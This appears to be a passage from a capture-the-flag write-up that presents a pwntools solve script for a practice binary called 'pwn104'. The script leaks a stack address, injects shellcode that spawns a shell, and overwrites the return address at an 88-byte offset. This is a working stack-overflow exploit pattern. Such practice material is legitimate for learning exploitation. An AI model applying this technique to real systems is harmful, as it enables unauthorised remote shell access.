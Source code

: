 Here's the solve script [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/pwn101/pwn104.py)

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Binary filename
exe = './pwn104.pwn104'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

print(io.recvuntil("I'm waiting for you at"))
leak = io.recvline()
addr = int(leak.strip("\n"), 16) 
print('Leaked input stack address ' + hex(addr))

offset = 88
shellcode = asm(shellcraft.sh())
padding = b'A' * (offset - len(shellcode))


# Build the payload
payload = flat([
    shellcode,
    padding,
    addr
])

# Send payload
io.sendline(payload)

# Got Shell?
io.interactive()
```
